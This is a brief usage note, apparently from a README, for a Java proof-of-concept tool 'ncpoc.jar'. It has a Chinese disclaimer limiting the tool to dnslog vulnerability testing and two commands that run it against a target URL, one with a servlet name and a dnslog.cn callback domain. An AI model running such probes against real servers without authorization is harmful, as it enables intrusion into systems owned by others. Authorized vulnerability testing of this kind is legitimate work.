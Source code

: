 此工具仅能dnslog漏洞测试，不可用于非法用途

java -jar ncpoc.jar http://target.com

java -jar ncpoc.jar http://target.com Servlet xxx.dnslog.cn

